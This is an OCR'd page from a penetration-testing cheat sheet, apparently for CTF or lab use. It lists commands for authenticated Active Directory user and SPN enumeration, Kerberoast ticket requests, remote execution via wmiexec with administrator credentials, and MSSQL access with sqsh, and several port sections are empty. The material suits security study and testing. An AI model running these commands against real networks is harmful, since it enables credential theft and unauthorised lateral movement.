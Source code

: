 ```
```

#### With user account
```   
➤ Authenticated research. With the example test.com : DOMAIN = test and DOMAIN2 = com
ldapsearch -x -h <IP> -p <PORT> -D 'USERNAME' -w 'PASSWORD' -b "dc=DOMAIN,dc=DOMAIN2" -s sub"(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname | grep sAMAccountName
OR
./GetADUsers.py -all DOMAIN/USERNAME -dc-ip <IP>
→ EX: ./GetADUsers.py -all domain.com/svc_tgs -dc-ip 10.0.0.1
OR
windapsearch.py -u "DOMAIN\USERNAME" --dc-ip <IP> -U
→ EX: ./windapsearch.py -u "FABRICORP\harry" --dc-ip 10.10.10.193 -U

➤ Verify if a SPN exist
ldapsearch -x -h 10.0.0.1 -p 389 -D 'SVC_TGS' -w'password' -b "dc=domain,dc=com" -s sub"(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName
OR
./GetUserSPNs.py DOMAIN/USERNAME -dc-ip <IP>
→ EX: ./GetUserSPNs.py domain.com/svc_tgs -dc-ip 10.0.0.1
→ OUTPUT: active/CIFS:445 -> a SPN exist

➤ Request a SPN token
./GetUserSPNs.py DOMAIN/USERNAME -dc-ip <IP> -request
→ EX: ./GetUserSPNs.py domain.com/svc_tgs -dc-ip 10.0.0.1 -request

➤ Wmiexec equivalent to psexec
./wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
→ EX: ./wmiexec.py domain.com/administrator:password@10.0.0.1
```


## 🔻Port 587
## 🔻Port 1433
#### Basic connection using sqsh
```
sqsh -U sa -P password -S 10.0.0.1:1433 -D mydb
```
#### Obtain a pretty output
```
go -m pretty
```
#### Execute command trough sqsh
#### Activate xp_cmdshell



## 🔻Port 2375
